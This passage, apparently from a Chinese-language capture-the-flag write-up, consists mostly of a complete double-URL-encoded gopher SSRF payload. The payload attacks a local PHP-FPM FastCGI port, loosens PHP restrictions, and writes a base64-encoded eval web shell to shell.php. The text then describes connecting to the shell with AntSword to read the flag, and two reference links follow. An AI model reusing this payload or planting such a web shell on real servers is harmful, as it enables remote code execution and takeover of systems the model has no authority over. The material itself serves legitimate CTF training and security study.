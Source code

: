 我们需要进行二次编码

```
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2505%2505%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2503CONTENT_LENGTH134%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%2586%2504%2500%253C%253Fphp%2520system%2528%2527echo%2520PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4%2520%257C%2520base64%2520-d%2520%253E%2520%2Fvar%2Fwww%2Fhtml%2Fshell.php%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

然后我们可以用蚁剑连接，找根目录，就可以得到flag

###  参考链接

https://www.freebuf.com/articles/web/292437.html

https://bbs.ichunqiu.com/thread-58455-1-1.html
